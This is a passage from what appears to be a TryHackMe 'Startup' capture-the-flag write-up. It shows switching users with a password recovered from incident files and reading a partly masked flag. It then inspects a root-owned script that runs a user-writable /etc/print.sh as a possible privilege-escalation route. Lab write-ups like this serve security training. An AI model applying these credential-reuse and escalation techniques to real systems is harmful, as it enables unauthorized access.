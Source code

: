 ```bash
sudo: 3 incorrect password attempts

<REDACTED>
```

Inspecting the output we can see multiple times what looks like a password, but seems like it's not the right password for the `www-data` user (maybe because this user don't own one), but the password `c4ntg3t3n0ughsp1c3` might work with the user `lennie`.

```bash
www-data@startup:/incidents$ su lennie
Password: c4ntg3t3n0ughsp1c3
lennie@startup:/incidents$ whoami
lennie
```

It worked, we now can access the `user.txt` flag.

```bash
lennie@startup:~$ cat user.txt 
THM{03ce******80ccbfb3******e46c0e79}
```

## Shell as Lennie

Checking **Lennie's** home directory, there is a folder named `scripts`, inside of it there are two files owned by root.

```bash
lennie@startup:~/scripts$ ls -l
total 8
-rwxr-xr-x 1 root root 77 Nov 12  2020 planner.sh
-rw-r--r-- 1 root root  1 Jan 11 16:42 startup_list.txt
```

We can read both files, so let's check what do the script does.

```bash
lennie@startup:~/scripts$ cat planner.sh 
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

It adds the content of a variable to the `startup_list.txt` and then executes the `/etc/print.sh` script, taking a look to this script we find that is owned by `lennie` and we can modify it.

All this looks interesting but checking for cron jobs, there is nothing listed, so if the user `root` is not executing the `planner.sh` script we are going no where.

```bash
lennie@startup:~/scripts$ cat /etc/crontab 
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```
